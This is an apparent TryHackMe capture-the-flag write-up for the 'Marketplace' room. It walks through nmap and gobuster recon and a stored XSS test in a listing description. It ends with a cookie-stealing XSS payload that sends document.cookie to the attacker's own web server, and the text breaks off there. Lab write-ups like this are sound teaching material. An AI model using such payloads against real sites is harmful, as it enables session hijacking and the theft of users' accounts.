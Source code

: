# TryHackMe The Marketplace write up

[https://tryhackme.com/room/marketplace](https://tryhackme.com/room/marketplace)

## reconnaissance
First of all we are gonna start with some reconnaissance on the box. We will start with a nmap scan.

```nmap -sV -sC -T4 -oN ./nmap_results 10.10.197.179```
the output will be saved in './nmap_results'

If we check the nmap results we can see the ports 22,80 and 32768 are open.

![alt text](img/nmap.png?raw=true "nmapresult")

There is a webserver running on port 80. If we visit the website we are greeted with what seems to be a simple marketplace.

![alt text](img/web.png?raw=true "web")


We will run a quik dir scan to see if it can find some important directories

```gobuster dir -u http://10.10.81.210:80 -w /usr/share/dirb/wordlists/big.txt > dirbuster.txt```
the output will be saved in 'dirbuster.txt'

![alt text](img/dir.png?raw=true "dir")

we can see a directory named admin, but if we try to acces it we can see the message:
"You are not authorized to view this page!"

We probably need to be loged in as an admin to see this page

If we create an account we can see that we can create a listing.

If we check out one of the listing we can see an intresting button underneath the img.

![alt text](img/list.png?raw=true "list")

Reporting the listing probably means someone with admin acces is going to inspect the listing. If 
we could find a xss bug in the listing we might be able to grab some admin session cookies.

## 1st flag

If we create a new listing we can try some xss on the description text box.

```<p style="color:red;">cross</p>```

![alt text](img/cross.png?raw=true "cross")

We can see that xss is possible!

Now that we know xss is posible and that we can report our xss listing for a admin to look at we just need a cookie grabbing payload that can send the session cookie to us.

lets first set up a simple webserver to recive the session cookie.

```python3 -m http.server 4013```

We will create a new listing with this this payload to grab the cookie of the browser viewing the html and send it to our webserver

```<img src=x onerror=this.src="http://10.8.71.60:4013/?c="+document.cookie>```
```